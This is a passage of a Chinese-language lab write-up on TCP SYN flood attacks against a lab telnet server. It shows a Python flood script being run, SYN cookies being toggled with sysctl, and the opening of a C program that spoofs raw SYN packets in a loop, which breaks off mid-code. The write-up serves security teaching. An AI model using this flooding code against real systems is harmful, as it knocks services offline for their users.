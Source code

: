 - 使用程序`syn_python.py`进行攻击：`sudo python3 ./syn_python.py`
  ![1.3.1.使用程序syn_python.py进行攻击](https://raw.githubusercontent.com/BIIIANG/pic/main/202204111910844.png)

- 客户机尝试使用`telnet`连接服务机失败，连接超时，攻击成功
  ![1.3.2.客户机尝试使用telnet连接服务机失败，连接超时，攻击成功](https://raw.githubusercontent.com/BIIIANG/pic/main/202204111911673.png)
  
- 此时服务机的`CPU`与内存占用
  ![1.0.3.CPU2](https://raw.githubusercontent.com/BIIIANG/pic/main/202204132103466.png)

### 1.4.2 开启`SYN cookie`

- 开启服务机的`SYN cookie`：`sysctl net.ipv4.tcp_syncookies=1`
- 再次使用程序`syn_python.py`进行攻击：`sudo python3 ./syn_python.py`
  ![1.3.3.再次使用程序syn_python.py进行攻击](https://raw.githubusercontent.com/BIIIANG/pic/main/202204111918532.png)
- 客户机尝试使用`telnet`连接服务机成功，攻击失败
  ![1.3.4.客户机尝试使用telnet连接服务机成功，攻击失败](https://raw.githubusercontent.com/BIIIANG/pic/main/202204111919835.png)

## 1.5 使用`C`语言程序进行攻击

### 1.5.1 关闭`SYN cookie`

- 关闭服务机的`SYN cookie`：`sysctl net.ipv4.tcp_syncookies=0`

- 攻击程序`syn_c.c`及头文件`syn_c.h`如下，在参考程序的基础上进修改了目标IP

  ```c
  // syn_c.c
  #include <unistd.h>
  #include <stdio.h>
  #include <stdlib.h>
  #include <time.h>
  #include <string.h>
  #include <sys/socket.h>
  #include <netinet/ip.h>
  #include <arpa/inet.h>
  
  #include "syn_c.h"
  
  #define DEST_IP    "172.17.0.3"   // Server IP
  #define DEST_PORT  23             // Server telnet port
  #define PACKET_LEN 1500
  
  unsigned short calculate_tcp_checksum(struct ipheader *ip);
  void send_raw_ip_packet(struct ipheader* ip);
  
  
  /******************************************************************
    Spoof a TCP SYN packet.
  *******************************************************************/
  int main() {
      char buffer[PACKET_LEN];
      struct ipheader *ip = (struct ipheader *) buffer;
      struct tcpheader *tcp = (struct tcpheader *) (buffer +
                                 sizeof(struct ipheader));
  
      srand(time(0)); // Initialize the seed for random # generation.
      while (1) {
          memset(buffer, 0, PACKET_LEN);
          /*********************************************************
            Step 1: Fill in the TCP header.
          ********************************************************/
          tcp->tcp_sport = rand(); // Use random source port
  ```